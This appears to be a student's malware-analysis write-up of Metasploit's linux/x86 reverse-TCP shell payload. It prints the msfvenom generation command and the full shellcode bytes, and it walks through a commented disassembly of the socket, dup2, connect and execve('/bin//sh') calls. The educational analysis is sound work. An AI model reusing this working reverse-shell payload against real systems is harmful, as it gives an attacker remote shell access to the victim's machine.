

# linux/x86/shell_reverse_tcp
- Analysis by: William Moody
- PA-25640

First I dumped the shellcode from metasploit.
`msfvenom -p linux/x86/shell_reverse_tcp LPORT=443 LHOST=127.0.0.1 -f c`

Next I generated a graph with libemu to visual the system calls.

```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | sctest -vvv -Ss 100000 -G linux-x86-shell_reverse_tcp.dot
dot linux-x86-shell_reverse_tcp.dot -Tpng -o linux-x86-shell_reverse_tcp.png
```


I disassembled the shellcode with ndisasm:
```
echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68\x02\x00\x01\xbb\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u - -b 32 -p intel
```

And I pasted the shellcode into `shellcode.c` and compiled it so that I can
view the observe the functionality in gdb.

`gcc shellcode.c -o shellcode`

Finally I loaded up `./shellcode` into gdb, stepped to the beginning of the
shellcode and began my analysis.

```
b*main+201
r
stepi
```

The first thing the shellcode does is create a socket.

```
int socketcall(int call, unsigned long *args);
int socket(int domain, int type, int protocol);
```


```
00000000  31DB              xor ebx,ebx     ; EBX = 0
00000002  F7E3              mul ebx
00000004  B066              mov al,0x66     ; EAX = 0x66 (SYS_SOCKETCALL)
00000006  43                inc ebx         ; EBX = 1
00000007  52                push edx        ; int protocol = 0 (default)
00000008  53                push ebx        ; int type = 1 (SOCK_STREAM)
00000009  6A02              push byte +0x2  ; int domain = 2 (AF_INET)
0000000B  89E1              mov ecx,esp     ; *args = ESP
0000000D  CD80              int 0x80        ; socketcall() -> socket()
```

*Note: parts of the shellcode were incorrectly dissasembled by ndisasm, so I 
will be copying the remaining shellcode by hand from gdb.*

Once the socket is created, the shellcode calls SYS_dup2 for STDIN, STDOUT, and
STDERR to be redirected to the socket.

```
int dup2(int oldfd, int newfd);
```



```
0000000F    xchg eax, ebx       ; EBX = sockfd
00000010    pop ecx             ; ECX = 2
00000011    mov al, 0x3f        ; EAX = 0x3f (SYS_dup2)
00000013    int 0x80            ; dup2()
00000015    dec ecx             ; ECX -= 1
00000016    jns 0x11            ; loop until ECX < 0
```

Once the file descriptors are copied, the shellcode uses another socket call to
SYS_CONNECT to connect to the HOST/PORT that was specified when generating the
shellcode with msfvenom.


```
00000018    push 0x0100007f     ; 127.0.0.1
0000001D    push 0xbb010002     ; 443, AF_INET
00000022    mov ecx, esp        ; *args = ESP
00000024    mov al, 0x66        ; EAX = 0x66 (SYS_SOCKETCALL)
00000026    push eax				 
00000027    push ecx
00000028    push ebx				
00000029    mov bl, 3           ; int call = 3 (SYS_CONNECT)
0000002B    mov ecx, esp        ; *args = ESP
0000002D    int 0x80            ; socketcall() -> connect()
```

For debugging, I started a netcat listener to receive the connection. 


Once a client is connected, the shellcode finally executes "/bin/sh" and the 
client should have a shell at this point.

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```


```
0000002F    push edx
00000030    push 0x68732f6e     ; "hs//"
00000035    push 0x69622f2f     ; "nib/"
0000003A    mov ebx, esp        ; *pathname = *"/bin//sh"
0000003C    push edx
0000003D    push ebx
0000003E    mov ecx, esp        ; argv[] = {"/bin//sh"}
00000040    mov al, 0xb         ; EAX = 0xb (SYS_EXECVE)
00000042    int 0x80            ; execve()
```


